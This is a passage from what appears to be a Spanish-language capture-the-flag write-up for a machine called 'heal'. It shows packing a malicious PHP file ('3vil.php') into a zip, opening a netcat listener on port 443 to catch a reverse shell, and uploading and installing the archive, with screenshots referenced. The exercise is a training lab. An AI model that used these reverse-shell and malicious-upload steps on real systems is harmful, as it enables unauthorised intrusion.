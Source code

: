 vamos a empaquetar ambos archivos en un comprimido zip:
```bash
zip 3vil.zip 3vil.php config.php
```

nos pondremos en encacha con nc:
```bash
nc -lnvp 443
```


primero se carga el zip:

<img src='/images/writeup-heal/Pasted image 20250511131113.png'>

claro que confiamos plenamente en este archivo :P

vamos a proceder a instalar:

<img src='/images/writeup-heal/Pasted image 20250511131209.png'>
